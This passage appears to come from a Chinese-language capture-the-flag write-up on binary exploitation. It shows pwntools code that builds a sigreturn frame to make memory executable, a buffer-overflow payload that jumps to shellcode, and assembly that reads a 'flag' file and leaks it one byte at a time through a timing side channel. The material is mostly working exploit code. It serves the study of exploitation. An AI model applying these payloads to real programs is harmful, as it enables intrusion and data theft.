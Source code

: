 ```plain
frame = SigreturnFrame()
frame.rdi = 10
frame.rsi = 0x404000
frame.rdx = 0x1000
frame.rcx = 7
frame.rip = syscall
frame.rsp = 0x4041ba
pl = b'\x00'*0x52+p64(rax_15)+p64(syscall2)+bytes(frame)+p64(0x404260)
pl = pl.ljust(0x200,b'\x00')
pl+=shellcode
```

[![](assets/1703640353-cb84c7b377ffc503aedc57af6895fec1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231225192006-8e9f21d8-a317-1.png)  
可以看到这里ret就是去执行shellcode了，下面只需要把shellcode换成侧信道爆破的shellcode就行

```plain
shellcode = asm('''
            mov r12,0x67616c66
            push r12
            mov rdi,rsp
            xor esi,esi
            xor edx,edx
            mov al,2
            syscall
            mov rdi,rax
            mov rsi,0x404500
            mov dl,0x40
            xor rax,rax
            syscall
            mov dl, byte ptr [rsi+{}]
            mov cl, {}
            cmp cl,dl
            jz loop
            mov al,60
            syscall
            loop:
            jmp loop
            '''.format(dis,char))
```
